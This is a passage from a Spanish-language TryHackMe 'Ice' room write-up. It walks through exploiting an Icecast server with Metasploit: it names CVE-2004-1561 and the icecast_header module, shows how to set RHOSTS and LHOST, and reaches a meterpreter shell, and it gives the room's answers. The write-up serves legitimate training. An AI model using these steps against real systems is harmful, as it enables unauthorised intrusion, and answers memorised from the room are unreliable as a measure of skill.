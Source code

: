 **ANSWER:** CVE-2004-1561

### (c) Iniciar Metasploit con el comando `msfconsole`
![msfconsole](THM-writeups/Ice/GainAccess/msfconsole.png)

### (d) ¿Cuál es la ruta completa del exploit de Icecast?
Escribimos **`search icecast`** y ya podremos ver la ruta buscada.

![ruta_icecast_exploit](THM-writeups/Ice/GainAccess/ruta_icecast_exploit.png)

**ANSWER:** exploit/windows/http/icecast_header

### (e) Escribimos `use 0` para utilizar el exploit

![use_0](THM-writeups/Ice/GainAccess/use_0.png)

### (f) Al escribir `show options`, ¿cuál es el único setting requerido que está en blanco?
Escribimos `show options` y vemos que el único setting en blanco es **RHOSTS**.

![RHOSTS_1](THM-writeups/Ice/GainAccess/rhosts_is_empty.png)

Deberemos rellenarlo indicando la **dirección IP que nos ha dado THM**.

![RHOSTS_2](THM-writeups/Ice/GainAccess/IP_rhosts.png)

**ANSWER:** rhosts

### (g) Establecer IP para **LHOST** y ejecutar exploit
La IP para **LHOST** la podemos encontrar en el adaptador **tun0** haciendo **ip a** en la terminal (es la **dirección IP de la VPN** vaya)

![LHOSTS_1](THM-writeups/Ice/GainAccess/lhost_ip.png)

Establecemos la IP para **LHOST** y ejecutamos el exploit.

![LHOSTS_2](THM-writeups/Ice/GainAccess/ip_lhost_y_ejecucion_exploit.png)

**NOTA:** También podemos escribir **`set lhost tun0`** para establecer la IP. 

## Task 4: Escalate

### (a) ¿Cuál es la shell a la que hemos obtenido acceso?
Si miramos al final de la imagen anterior veremos el nombre de la shell en la que estamos: **meterpreter**

![LHOSTS_2](THM-writeups/Ice/GainAccess/ip_lhost_y_ejecucion_exploit.png)

**ANSWER**: meterpreter
